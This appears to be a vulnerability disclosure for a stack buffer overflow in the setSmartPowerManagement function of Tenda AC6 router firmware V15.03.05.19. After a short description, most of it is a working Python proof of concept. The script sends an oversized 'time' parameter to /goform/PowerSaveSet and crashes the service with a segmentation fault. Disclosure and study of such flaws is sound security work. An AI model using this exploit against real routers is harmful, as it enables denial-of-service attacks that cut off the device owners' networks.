

## Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the setSmartPowerManagement function

A critical buffer overflow vulnerability exists in the `setSmartPowerManagement` function of the Tenda AC6 router firmware version V15.03.05.19.  
An attacker can exploit improper bounds handling in the `sscanf` function to overflow a stack-based buffer. Successful exploitation allows triggering a Denial of Service (DoS) condition or crashing the target service, potentially leading to complete device instability.



```python
import requests

def create_payload():
	payload = b'00:00-00:'
	buffer_size = 0x400
	payload += b"A" * buffer_size
	return payload

def send_payload(url, payload):
    params = {'time': payload}
    response = requests.get(url, params=params)
    
    print("Response status code:", response.status_code)
    print("Response body:", response.text)

if __name__ == "__main__":
    url = 'http://192.168.52.138/goform/PowerSaveSet'
    payload = create_payload()
    send_payload(url, payload)

```

Achieved Result: Segmentation Fault


